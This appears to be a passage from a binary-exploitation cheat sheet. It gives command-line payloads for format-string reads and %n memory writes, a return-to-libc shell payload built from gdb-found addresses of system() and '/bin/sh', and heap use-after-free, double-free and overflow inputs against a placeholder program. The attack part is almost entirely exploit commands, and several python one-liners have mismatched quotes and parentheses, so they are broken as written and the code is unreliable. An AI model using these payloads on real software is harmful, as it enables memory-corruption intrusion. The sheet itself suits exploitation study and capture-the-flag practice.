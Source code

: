 ### 2. Format String Vulnerability
```bash
# Basic tests
$ ./binary AAAA%x.%x.%x.%x
$ ./binary %p.%p.%p.%p
$ ./binary %s.%s.%s.%s
$ ./binary %n.%n.%n.%n

# Parameter reading
$ ./binary AAAA%3\$x  # Read 3rd parameter
$ ./binary AAAA%4\$s  # Read string at 4th parameter

# Memory writing
# Write 4 bytes
$ ./binary $(python -c 'print "\x20\x30\x40\x50" + "%7$n")')

# Write specific value (100)
$ ./binary $(python -c 'print "\x20\x30\x40\x50" + "%100x%7$n")')

# Multiple writes
$ ./binary $(python -c 'print "\x20\x30\x40\x50\x21\x30\x40\x50" + "%100x%7$n" + "%200x%8$n")')

# Byte-by-byte write
$ ./binary $(python -c 'print "\x20\x30\x40\x50" + "%100c%7$hhn")')
```

### 3. Return-to-libc Attack
```bash
# Finding addresses
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4e150 <system>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f6fda9

# 32-bit payload
$ ./binary $(python -c 'print "A"*44 + "\x50\xe1\xe4\xf7" + "JUNK" + "\xa9\xfd\xf6\xf7"')

# 64-bit with gadgets
$ ROPgadget --binary binary --rop --only "pop|ret"
```

### 4. Heap Exploitation
```bash
# Use-After-Free
$ ./binary <<< $(python -c 'print "alloc\nfree\nuse\n")')

# Double-free
$ ./binary <<< $(python -c 'print "alloc\nfree\nfree\n")')

# Heap overflow
$ ./binary <<< $(python -c 'print "A"*256')

# Heap inspection
(gdb) heap chunks
(gdb) heap bins
(gdb) p *((struct malloc_chunk*)0x804b000)  # Examine chunk

# Chunk consolidation
$ ./binary <<< $(python -c 'print "alloc\nfree\nconsolidate\n")')
```
